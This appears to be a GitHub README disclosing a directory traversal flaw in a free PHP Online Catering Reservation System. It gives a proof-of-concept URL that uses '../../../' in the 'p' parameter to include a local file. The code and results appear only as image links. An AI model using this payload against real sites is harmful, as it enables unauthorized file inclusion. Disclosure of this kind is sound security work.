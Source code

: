 # Online-Catering-Reservation-DT

Exploit: Online-Catering-Reservation Directory Traversal Attack

Vendor/Source Code: https://www.sourcecodester.com/php/14896/online-catering-reservation-system-using-php-free-source-code.html

Website is hosted on C:\xampp\htdocs\catering\

poc.php (added to C:\ for this example)

![image](https://user-images.githubusercontent.com/88117535/128966086-eaa748b4-3374-4f4d-9038-6efb9a8ccd56.png)

Navigate to
http://localhost/catering/?p=../../../poc

![image](https://user-images.githubusercontent.com/88117535/128966196-9443f7d9-58c9-4279-a7af-794f4e51c309.png)

Vulnerable Code in index.php:

![image](https://user-images.githubusercontent.com/88117535/128966223-2bb0dbc5-2e58-4664-998f-66b23d60764c.png)
